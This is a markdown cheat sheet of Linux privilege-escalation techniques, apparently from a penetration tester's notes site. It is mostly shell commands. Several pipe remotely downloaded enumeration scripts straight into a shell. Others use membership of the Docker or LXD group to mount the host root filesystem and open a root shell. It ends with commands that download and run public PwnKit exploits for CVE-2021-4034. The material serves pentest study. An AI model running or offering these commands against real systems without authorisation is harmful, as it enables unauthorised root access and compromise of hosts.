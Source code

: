 # Linux Privilege Escalation

## Tools

#### [LinPEAS](https://github.com/peass-ng/PEASS-ng)

```bash
curl -sL https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

#### [LSE](https://github.com/diego-treitos/linux-smart-enumeration)

```bash
curl -sL https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh | bash
```

#### [LinEnum](https://github.com/rebootuser/LinEnum)

```bash
curl -sL https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

## System Info

Obtain information about the system **architecture, distribution, and kernel version**.

```bash
uname -a  # System information
lsb_release -a  # Distribution information
getconf LONG_BIT  # System architecture
cat /proc/version  # Kernel version
cat /etc/os-release  # OS details
```

## Path

Check if you have **write permissions** for any directory in the PATH.

```bash
echo $PATH | tr ':' '\n' | sort -u | xargs -I{} bash -c 'if [ -w "{}" ]; then echo "[+] {}"; fi'
```

## Enviroment Variables

Sometimes we can find password or sensitive information in enviroment variables.

```bash
env  # Environment variables
set  # Shell variables
```

## Groups

List all the groups users belongs to.

```bash
id [user]
groups [user]
```

### Docker

If you belong to the **Docker group**, you could **mount the filesystem** within a container and have full access to it, allowing you to modify it.

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

### LXD/LXC

Similar to Docker, with **LXD/LXC**, we can also **mount the filesystem** within a container, granting full access to it.

{% code overflow="wrap" %}
```bash
# On your machine, download and build an alpine image and transfer it to the host
git clone https://github.com/saghul/lxd-alpine-builder && cd lxd-alpine-builder && sudo ./build-alpine
```
{% endcode %}

```bash
# Import the image
lxc image import ./alpine.tar.gz --alias privimg
# Create the containter
lxc init privimg privcont -c security.privileged=true
# Mount the filesystem
lxc config device add privcont privdev disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start privcont
# Interactive shell
lxc exec privcont /bin/sh
```

## Sudo

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
# List user privileges
sudo -l
# Version
sudo -V | grep "Sudo ver"
```

## Capabilities <a href="#capabilities" id="capabilities"></a>

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)

```bash
getcap -r / 2>/dev/null
```

## SUID

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

## Open Ports

```bash
ss -nltp
netstat -punta
```

## Cron Jobs

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs)

```bash
crontab -l
find / -name "cron*" 2>/dev/null
ls -l /var/log/syslog
ls -l /var/log/cron
```

## Process Monitor

{% hint style="info" %}
You can add words to the blacklist on the `grep -Ev` section.
{% endhint %}

```bash
old_ps=$(ps -eo user,command); while true; do new_ps=$(ps -eo user,command); \
diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" | \
grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

## Writable Scripts

```bash
find / -user <USER> -writable \( -name "*.sh" -o -name "*.py" \) -type f 2>/dev/null
```

## Exploits

### Polkit - (CVE-2021-4034)

[https://github.com/Almorabea/pkexec-exploit/tree/main](https://github.com/ly4k/PwnKit/tree/main)

```bash
curl -sL https://raw.githubusercontent.com/Almorabea/pkexec-exploit/main/CVE-2021-4034.py \
-o PwnKit.py && python3 PwnKit.py
```

[https://github.com/ly4k/PwnKit/tree/main](https://github.com/ly4k/PwnKit/tree/main)

```bash
curl -sL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit \
-o PwnKit && chmod +x PwnKit && ./PwnKit
```
